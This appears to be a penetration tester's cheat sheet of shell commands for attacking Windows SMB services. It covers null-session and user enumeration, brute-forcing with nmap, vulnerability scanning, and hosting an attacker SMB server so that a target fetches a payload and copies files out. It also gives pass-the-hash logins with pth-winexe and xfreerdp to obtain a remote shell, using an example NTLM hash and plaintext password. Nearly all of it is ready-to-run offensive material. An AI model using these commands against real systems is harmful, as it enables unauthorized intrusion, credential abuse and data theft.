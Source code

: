 <https://highon.coffee/blog/enum4linux-cheat-sheet/>

mount -t cifs "//10.11.1.49/admin$" /mnt/windows/ -o username=bethany\alice,domain=workgroup,password=loading1 --verbose

## SMB Enum

```sh
nmblookup -A 10.1.1.1

smbclient //MOUNT/share -I 10.1.1.1 -N
# connect to share, -N no password prompt

smbclient -L \\10.11.1.1 -U bob -S off
rpcclient -p 139 -U "bob" -S off 10.11.1.1
# disable message signing

rpcclient -U "" 10.1.1.1
# works on older windows versions

enum4linux 10.1.1.1
# discover Windows/Samba servers on subnet, finds Windows MAC addresses, netbios name & discover client workgroup/domain

nbtscan 10.1.1.0/24
# do everything, runs all options apart from dictionary based share name guessing

enum4linux -a 10.1.1.1
# performs all basic enumeration using smb null session

enum4linux -U 192.168.1.2   
#-You will get userlist
# SMB null session is an unauthenticated netbios session between two computers.
# SMB null session is available for SMB1 systems only i.e 2000,xp,2003

#To use an smb null session :
rpcclient -U "" 192.168.1.2
#when asked enter empty password
rpcclient $>srvinfo
rpcclient $>enumdomusers
rpcclient $>querydominfo
rpcclient $>getdompwinfo
#password policy
rpcclient $>netshareenum
nmblookup -A 192.168.1.1
rpcinfo -p <target>

#Enumerate using smbclinet:
smbclient -L //192.168.1.2
smbclient -L //192.168.1.2/myshare -U anonymous

smb> get data.txt
smb>put evil.txt

#Brute SMB password:
nmap -p445 --script=smb-brute.nse <ip>

# Brute force should always be your last option. 
# You can also use hydra to do it.

#Using nmap:
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.1.200-254

nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24

nmap -sSU -script smb-os-discovery.nse -p U:137,T:139,445 --script-args=smbsign=disable,smbuser=username,smbpass=password -oA 10.11.1.5_smbos -vv -n -Pn 10.11.1.5

nmap -sSU -script smb-vuln\* -p U:137,T:139,445 --script-args=smbsign=disable,smbuser=username,smbpass=password -oA 10.11.1.5_smbvuln -vv -n -Pn 10.11.1.5

nmap -sSU -script smb-enum\* -p U:137,T:139,445 --script-args=smbuser=username,smbpass=password -oA 10.11.1.5_smbenum -vv -n -Pn 10.11.1.5
```


## Fingerprint SMB version

```sh
None
```


## Find open SMB Shares



```sh
nmap -oA 192.168.1.0_shares --script=smb-enum-shares --script-args=smbuser=username,smbpass=password -p445 192.168.1.0/24   
# possible techniques - specify no creds, empty creds, correct creds and incorrect creds

smbclient -L //192.168.1.100 -N
#list shares with no password prompt
```
## Enumerate SMB Users



```sh
nmap --script=smb-enum-users -sSU -pU:137,T:139 -oA 192.168.1.200-254_smbusers 192.168.11.200-254 
```
## SMB Server



```sh
python /usr/share/doc/python-impacket/examples/smbserver.py probfine ./

#Get
copy \\10.1.1.1\probfine\payload .

#Put
copy C:\coolinfo \\10.1.1.1\probfine\
```
## Pass the hash
**SMB**
In order to use pass the hash, we first need to put the hash in a env variable using the export command:

```sh
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```


So we will atuhenticate against a smb-service.

```sh
pth-winexe -U administrator //192.168.1.101 cmd
```


I think you can run it like this too:



```sh
pth-winexe -U admin/hash:has //192.168.0.101 cmd
```
**Remote Desktop**



```sh
apt-get update
apt-get install freerdp-x11

xfreerdp /u:admin /d:win7 /pth:hash:hash /v:192.168.1.101
```
## Exploits
EternalBlue (MS17-010)
